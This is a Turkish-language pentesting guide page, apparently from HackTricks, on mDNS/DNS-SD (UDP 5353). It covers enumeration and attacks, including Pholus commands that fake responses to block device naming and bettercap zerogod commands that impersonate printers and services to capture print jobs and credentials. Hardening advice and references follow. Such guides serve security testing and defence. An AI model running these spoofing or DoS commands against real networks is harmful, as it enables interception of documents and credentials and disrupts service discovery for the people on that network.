 # 5353/UDP Çoklu Yayın DNS (mDNS) ve DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

Çoklu Yayın DNS (mDNS), tekil bir DNS sunucusu olmadan yerel bir bağlantı içinde DNS benzeri ad çözümü ve hizmet keşfi sağlar. UDP/5353 ve 224.0.0.251 (IPv4) ile FF02::FB (IPv6) çoklu yayın adreslerini kullanır. DNS Hizmet Keşfi (DNS-SD, genellikle mDNS ile birlikte kullanılır), PTR, SRV ve TXT kayıtları aracılığıyla hizmetleri listelemek ve tanımlamak için standart bir yol sunar.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Anahtar protokol detayları, saldırılar sırasında sıkça kullanacağınız:
- .local alanındaki isimler mDNS aracılığıyla çözülür.
- QU (Query Unicast) biti, çoklu yayın soruları için bile tekil yanıtlar talep edebilir.
- Uygulamalar, yerel bağlantıdan kaynaklanmayan paketleri göz ardı etmelidir; bazı yığınlar hala bunları kabul eder.
- Sondalama/duyurma, benzersiz ana bilgisayar/hizmet isimlerini zorlar; burada müdahale etmek, DoS/"isim işgali" koşulları yaratır.

## DNS-SD hizmet modeli

Hizmetler, .local altında _<service>._tcp veya _<service>._udp olarak tanımlanır, örneğin _ipp._tcp.local (yazıcılar), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) vb. _services._dns-sd._udp.local ile türleri keşfedin, ardından keşfedilen örnekleri SRV/TXT/A/AAAA'ya çözün.

## Ağ Keşfi ve Sayımı

- nmap hedef taraması (bir ana bilgisayarda doğrudan mDNS):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap yayın keşfi (segmenti dinleyin ve tüm DNS-SD türlerini/örneklerini sayın):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# Hizmet türlerini listele
avahi-browse -bt _services._dns-sd._udp
# Tüm hizmetleri tarayın ve ana bilgisayar/port'a çözün
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# Tüm HTTP hizmetlerini tarayın
dns-sd -B _http._tcp
# Hizmet türlerini sayın
dns-sd -B _services._dns-sd._udp
# Belirli bir örneği SRV/TXT'ye çözün
dns-sd -L "My Printer" _ipp._tcp local
```
- tshark ile paket yakalama:
```bash
# Canlı yakalama
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Sadece DNS-SD hizmet listesi sorgularını
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

İpucu: Bazı tarayıcılar/WebRTC, yerel IP'leri maskelemek için geçici mDNS ana bilgisayar adları kullanır. Eğer ağda rastgele-UUID.local adayları görüyorsanız, bunları mDNS ile çözerek yerel IP'lere geçiş yapın.

## Saldırılar

### mDNS isim sondalama müdahalesi (DoS / isim işgali)

Sondalama aşamasında, bir ana bilgisayar isim benzersizliğini kontrol eder. Sahte çelişkilerle yanıt vermek, yeni isimler seçmesini veya başarısız olmasını zorlar. Bu, hizmet kaydını ve keşfini geciktirebilir veya engelleyebilir.

Pholus ile örnek:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Servis sahteciliği ve taklit (MitM)

Rekabetçi DNS-SD hizmetlerini (yazıcılar, AirPlay, HTTP, dosya paylaşımları) taklit ederek istemcileri sizinle bağlantı kurmaya zorlayın. Bu özellikle şunlar için faydalıdır:
- _ipp._tcp veya _printer._tcp taklit ederek belgeleri yakalamak.
- İstemcileri token/cookie toplamak veya yükler iletmek için HTTP/HTTPS hizmetlerine çekmek.
- Windows istemcileri taklit edilen hizmetlere kimlik doğrulaması yaparken NTLM iletim teknikleri ile birleştirmek.

bettercap’in zerogod modülü (mDNS/DNS-SD sahtecisi/taklitçisi) ile:
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Ayrıca genel LLMNR/NBNS/mDNS/WPAD sahtecilik ve kimlik bilgisi yakalama/iletim iş akışlarına bakın:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Son uygulama sorunları hakkında notlar (engellemeler/süreklilik için yararlıdır)

- Avahi erişilebilirlik-iddası ve D-Bus çökme hataları (2023), avahi-daemon'u Linux dağıtımlarında sonlandırabilir (örneğin, CVE-2023-38469..38473, CVE-2023-1981), hedef ana bilgisayarlarda hizmet keşfini kesintiye uğratır.
- Cisco IOS XE Kablosuz LAN Kontrolörü mDNS geçidi DoS (2024, CVE-2024-20303), komşu saldırganların yüksek CPU kullanımı sağlamasına ve AP'leri koparmasına olanak tanır. VLAN'lar arasında bir mDNS geçidi ile karşılaşırsanız, hatalı veya yüksek hızlı mDNS altında kararlılığına dikkat edin.

## Savunma dikkate alımları ve OPSEC

- Segment sınırları: 224.0.0.251/FF02::FB'yi güvenlik bölgeleri arasında yönlendirmeyin, mDNS geçidi açıkça gerekli olmadıkça. Keşfi köprülemek zorundaysanız, izin listelerini ve hız sınırlamalarını tercih edin.
- Windows uç noktaları/sunucular:
- mDNS üzerinden ad çözümlemesini zorla devre dışı bırakmak için kayıt defteri değerini ayarlayın ve yeniden başlatın:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- Yönetilen ortamlarda, yerleşik “mDNS (UDP-In)” Windows Defender Güvenlik Duvarı kuralını devre dışı bırakın (en azından Alan profilinde) böylece ev/gezinme işlevselliğini korurken gelen mDNS işlemesini engelleyin.
- Daha yeni Windows 11 sürümlerinde/GPO şablonlarında, “Bilgisayar Yapılandırması > Yönetim Şablonları > Ağ > DNS İstemcisi > çoklu yayın DNS (mDNS) protokolünü yapılandır” politikasını kullanın ve Devre Dışı olarak ayarlayın.
- Linux (Avahi):
- Gerekmediğinde yayınlamayı kısıtlayın: `disable-publishing=yes` ayarlayın ve `/etc/avahi/avahi-daemon.conf` dosyasında `allow-interfaces=` / `deny-interfaces=` ile arayüzleri kısıtlayın.
- `check-response-ttl=yes` kullanmayı düşünün ve kesinlikle gerekli olmadıkça `enable-reflector=yes` kullanmaktan kaçının; yansıtma sırasında `reflect-filters=` izin listelerini tercih edin.
- macOS: Belirli alt ağlar için Bonjour keşfi gerekmediğinde, ana bilgisayar/ağ güvenlik duvarlarında gelen mDNS'yi kısıtlayın.
- İzleme: `_services._dns-sd._udp.local` sorgularında alışılmadık artışlar veya kritik hizmetlerin SRV/TXT'lerinde ani değişiklikler için uyarı verin; bunlar sahtecilik veya hizmet taklidi göstergeleridir.

## Araçlar hızlı referansı

- nmap NSE: `dns-service-discovery` ve `broadcast-dns-service-discovery`.
- Pholus: aktif tarama, ters mDNS taramaları, DoS ve sahtecilik yardımcıları.
```bash
# Pasif dinleme (zaman aşımı saniyeleri)
sudo python3 pholus3.py <iface> -stimeout 60
# Hizmet türlerini listele
sudo python3 pholus3.py <iface> -sscan
# Genel mDNS istekleri gönder
sudo python3 pholus3.py <iface> --request
# Bir alt ağın ters mDNS taraması
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: mDNS/DNS-SD hizmetlerini keşfetme, kaydetme, duyurma ve taklit etme (yukarıdaki örneklere bakın).

## Sahtecilik/MitM

Bu hizmet üzerinden gerçekleştirebileceğiniz en ilginç saldırı, istemci ile gerçek sunucu arasındaki iletişimde bir MitM gerçekleştirmektir. Hassas dosyaları (yazıcı ile iletişimi MitM) veya hatta kimlik bilgilerini (Windows kimlik doğrulaması) elde etme şansınız olabilir.\
Daha fazla bilgi için kontrol edin:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Referanslar

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD keşfi, sahtecilik, taklit)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
